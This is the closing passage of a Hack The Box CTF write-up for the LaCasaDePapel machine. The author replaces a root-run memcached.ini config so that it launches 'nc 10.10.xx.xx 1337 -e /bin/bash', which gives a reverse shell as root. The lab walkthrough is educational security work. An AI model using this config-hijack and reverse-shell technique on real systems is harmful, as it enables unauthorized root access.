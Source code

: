 <br> The `uid` is 65534 which is the `uid` of `nobody` :
```
lacasadepapel [~]$ id nobody
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
lacasadepapel [~]$ 
```
<br> We can't write to `memcached.ini`, but we can delete it and create a new one :
```
lacasadepapel [~]$ cat memcached.ini
[program:memcached]
command = sudo -u nobody /usr/bin/node /home/professor/memcached.js
lacasadepapel [~]$ rm memcached.ini
rm: remove 'memcached.ini'? y
lacasadepapel [~]$ vi memcached.ini
lacasadepapel [~]$ cat memcached.ini
[program:memcached]
command = /usr/bin/nc 10.10.xx.xx 1337 -e /bin/bash
lacasadepapel [~]$
```
<br> I changed the command from `sudo -u nobody /usr/bin/node /home/professor/memcached.js` to `/usr/bin/nc 10.10.xx.xx 1337 -e /bin/bash`. After some seconds I got a reverse shell as root :
![](/images/hackthebox/lacasadepapel/21.png)
<br> And we owned root !
<br> That's it , Feedback is appreciated !
<br> Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
<br> Thanks for reading.
<br>
<br>
<br> Previous Hack The Box write-up : [Hack The Box - CTF](/hack-the-box/ctf/)
<br> Next Hack The Box write-up : [Hack The Box - Fortune](/hack-the-box/fortune/)
<hr>